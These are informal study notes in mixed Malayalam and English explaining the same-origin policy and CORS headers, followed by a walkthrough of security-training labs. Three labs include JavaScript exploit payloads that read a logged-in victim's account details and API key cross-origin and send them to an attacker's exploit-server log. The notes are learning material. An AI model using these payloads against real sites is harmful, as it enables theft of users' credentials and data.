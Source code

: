 ## Cross-origin resource sharing:
### same origin policy:
     -> what is an ORIGIN?
      
--> `https://     websecurity-academy.com:      443/somepath` 
          scheme     +        domain                                  +   port         =same origin   (ORIGIN)

          some same-origin examples->
                    1) `https://websecurity-academy.com/somepath`
                    2) `https://websecurity-academy.com/anotherpath`
                    3) `https://websecurity-academy.com/againanotherpath`
-->when we have the same scheme,same origin and same port(ivide 443 kodukunil karanam https inte default port aan 443) regardless of the path(/somepath) ,it is considered to be the same origin

           some none-origin examples->
                    1) www.websecurity-academy.com/otherpath
                    2) websecurity-academy:7777   (diffrnt port)
                    3) ftp://websecurity-academy/somepath  (diffrnt scheme)
                    4) https://academy.websecurity-adacemy/somepath (ivide difrnt domain)
                    5) http://websecurity-academy.com:8080   (difrnt port)

-->different subdomain,port,sheme oke varumbol ath different origins aan
-->athayath ith browser implement chyuna oru technique aan.for example: oru shopping app um oru banking app namal browser il eduthu enn vecho.
-->ee shopping app malicious aanengil ith namude banking aap ilek banking info kitanayi oru request send chyum however when the browser seees that request,it will check the origin of the request and it will check where the request originated from.ivide ath shoppingapp.com enna domain il ninaan request banking appilek varunath and that domain is different from the domain of the banking app.so the browser rejects the request

### CORS:
-->moderm webapplications in avarude sumbomains umayi interact chyendi varum apol ee same origin policy undayal ath nadakil karanam browser reject chyum.so athin oru pariharaman namude CORS.
-->CORS is a browser mechanism which enables controlled access to resources located outside of a given domain.in simple, jwhere do you allow requests to come from
-->==CORS is a mechanism that uses http headers to define origins that the browser permit loading resources==
-->CORS make use of 2 http headers:
      1) Access-Control-Allow-Origin
      2) Access-Control-Allow-Credentials

-->ee Access-Control-Allow-Origin ennath namal chyuna requset in response aayi server tharuna oru header aan.rand domain thamil origin share chyan permission undengil server ath ee header response aayi namuk tharum
-->The Access-Control-Allow-Origin response header indicates whether the response can be shared with requesting code from the given origin
-->http header il namal kanuna `host: header` ennal namuk eth site il ninan data edukendath (if GET) allengil eth site ilek aan specific action nadathendath (if POST).athuple `origin: header` ennal ariyalo current url/site address
-->Access-Control-Allow-Origin il chyumbol.for example shopping site und athilek analytics subdomain ilninum data kitanam apol namal :
            `GET /data HTTP/1.1` 
            `Host: robust-website.com` 
            `Origin : https://shopping.com
-->ithinte response:
            `HTTP/1.1 200 OK`
            `Access-Control-Allow-Origin: https://analytics.shopping.com
-->ipol shopping.com il ninum products inte details anlytics.shopping.com il ninum kitum oru prashnavum ila
-->==Access-Control-Allow-Origin allows you to only access public pages in the application. inorder to access authenticated pages you need to use another header: Access-Control-Allow-Credentials header==
-->Access-Control-Allow-Credentials response header allows cookies (or other user credentials) to be included in cross-origin requests
-->athayath matooru domain il ninum namuk account details edukanam.ith ellavarkum edukan patila authorized aaya aalukalk mathrame access ulloo.so response il  Access-Control-Allow-Origin=domain, Access-Control-Allow-Credentials=true ennu kanan patum

==============================================================

         Lab-1(CORS vulnerability with basic origin reflection)
-->ivide namal lab open chyuka enit namal login chyuka.apol namude account open aakum.aa open aakuna requests elam note chyuka
-->ithil oru json /GET request kanam `/accountDetails` enna path ilek pokuna request
-->athile response il nokiyal kanam Access-Control-Allow-Credentials: true enn
-->athayath cors use chyunund athum important aayathan athukondan ee header response il varunath
-->athupole response il nokiyal kanam namude `details,api key` oke kidakunath
-->so ee request repeater il viduka enit oru puthiya header iduka ie, origin: hello.com enit send adichal kanam response il Access-Control-Allow-Origin: hello.com enn athayath eth domain il ninum request vanalum server accept chyum
-->ini namuk oru js malicious code undakanam adminte api key edukan
-->SCRIPT:
          <script> 
               var req = new XMLHttpRequest(); 
               req.onload = reqListener;
               req.open('get','$url/accountDetails',true); 
               req.withCredentials = true;                                   ----------1)
               req.send(); 
               
               function reqListener() { 
                        location='/log?key='+this.responseText; 
                }; 
            </script>

-->ivide `<html ,<body oke kodukanam keto` enale oru website il work aaku
-->ivide url il correct url kodukuka enit endpoint reeqeust il nokiyal kanam `/accountDetails` aa request il aanalo namal chyunath so aa path correct kodukuka.thuakam https:// idanam ok.
-->enit exploit server il poi deliver to victim adichit access log il poi nokiyal kanam adminte api key kidakunath so ath copy chyth submit chythal lab solve aayi
-->burp il request um response um nokuka.reqeust il nokiyal kanam athil session cookie und response il nokiyal kanam  Access-Control-Allow-Credentials: true enn so athinarthma ee session cookie aan ivide credential aayi use chyunath
--> ==Access-Control-Allow-Credentials allows credential to be passed in the request that could be cookies,authorization headers,certificates... but here the app makes use of a session cookie==
-->ivide 1) il namal credentals true kodukumbol aaru ee link ilek poiyalum avarude details,api key oke kitum
-->sradhikuka real life il namal thane namude server il ee script add chyanam.athayth namal control chyuna site il ee script add chyanam ennale work aaku.ivide admin ee page il varumbol adminte details namuk kitunu ok ath namal ormichirikanam
-->athayath josu.com/malicuous  enna pathil aan namal script chythirikunath ennal aa link victim in kodukanam apol avan click chyumbol ath work aayikolum
-->oru karyam koodi sredhikuka ivide namude respone il Access-Control-Allow-Credentials: true enna http header kanikunath kondan namuk ee task chyan patunath.ith ilengil namuk credentials kitila.athinte koode Access-Control-Allow-Origin enna response header namal origin: reqeust header vazhi test chythapol eth originum accept chyunathayi kandu athukondan work aakunath ilengil vere oru siteil ninum ee request borwser accept chyilla

==============================================================

          Lab-2(CORS vulnerability with trusted null origin)
-->ividem namal nerthe pole login chyuka.login chyumbol namuk load aayi varuna requests ellam nokuka athil oru json GET request und ath repeater il iduk
-->Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
-->nerthe pole aa request il origin: http://hello.com ennadichal response il Access-Control-Allow-Origin: hello.com enn kanikunila.ee header polum kanikunila
-->but namuk Access-Control-Allow-Credential: true enn kanikunund.so namuk publid and private resources edukan patum maryathak exploit chythal
-->so ivide origin: enth url koduthal Access-Control-Allow-Origin response header varathathkond origin: null enn koduth send adikumbol Access-Control-Allow-Origin response il kanikunund
-->so ini namuk script undakanam.ivide origin null ayathkond thane namude scritp oru sandbox origin inte ullil aaki idanam ennale work aaku
-->SCRIPT:
        <iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
                var req = new XMLHttpRequest();
                req.onload = reqListener;
                req.open('get','https://0aff00f804a525b8c0e3306b0065006d.web-security-academy.net/accountDetails',true);
                req.withCredentials = true;
                req.send();
                function reqListener() {
                     location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
                };                                                                   ---1)
<               /script>">
        </iframe>
-->deliver chythit access log adichal apikey kitum ath submit chythal solve aayi
-->ivide 1) il nokiyal kanam athayath ee response eth pathilek varanam ennath aan kanikunath. athayath admin inte key ee parayuna pathil vannolum

==============================================================

            LaB-3(CORS vulnerability with trusted insecure protocols)
-->ividem namal login chythathin shesham GET /accountDetails enna json request eduth repeateril idunu.athinte response il Access-Control-Allow-Credentials: true enn und athupole api key yum und
-->so namal request il origin: https://something.com enn koduth send chyumbol Access-Control-Allow-Origin: enn header response il varunila.origin value null akumbozhum varunila
-->so namal host: header il ninum domain eduth https://doman.com enn koduth send chyumbol Access-Control-Allow-Origin:https://originaldomain.com enn reflect chyunund.so ini namuk ee domainte munnilayi oru fake subdoman koduth send chythal athum accept chyunundon nokanam
-->so origin: https://malicious.0a9e00400.....web-security-academy.net  enukodukumbol accept chyunund.so athinartham ee url umayi bandhapett eth subdomainum accept chyunund server
-->so ivide lab il stok.0a9e004......web-security-academy.net enna subdomain il site il ulla products inte stock chech chyuna oru request und so athil productid= enn parameter il <script>alert(3)</script> enn adich athinte response browseril nokumbol xss work aakunund.so namuk ee xss ee subdomainil cherth xss trigger chyipich admintem mattu usersintem apikey edukam
-->athayath alert alla oru script thane undaki athil mattullavarude apikey retrieve chyuna reethiyil ulla script undaki chyanam
-->SCRIPT:
          <script> document.location="http://stock.$your-lab-url/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://$your-lab-url/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://$exploit-server-url/log?key='%2bthis.responseText; };%3c/script>&storeId=1" </script>

-->ivide last exploitserver inte urrl kodukanam baki rand sthalathum namude site inte host name koduthal mathi
-->ini deliver to victim adich access log adichal adminte apikey kitum

==============================================================

        Lab-4(CORS vulnerability with internal network pivot attack)
-->ith expert lab aan 4 script undakanam javascript so difficult aan




==========================
